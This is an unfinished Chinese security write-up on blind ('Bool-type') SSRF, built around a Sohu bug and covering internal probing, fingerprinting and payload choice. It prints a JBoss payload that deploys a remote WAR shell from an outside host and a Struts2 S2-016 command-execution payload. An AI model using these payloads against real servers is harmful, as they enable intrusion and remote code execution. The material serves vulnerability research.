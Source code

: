 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
1. 应用识别
	{ 指纹1 + 指纹2 + 黑指纹 }
以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A) invoker.host(B) black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

2. 攻击Payload
针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

	/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war
通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

	/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

3. Payload Result
获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法

#### 0x04 Struts2在Bool型SSRF中的利用

#### 0x05 Other(想到什么写什么)

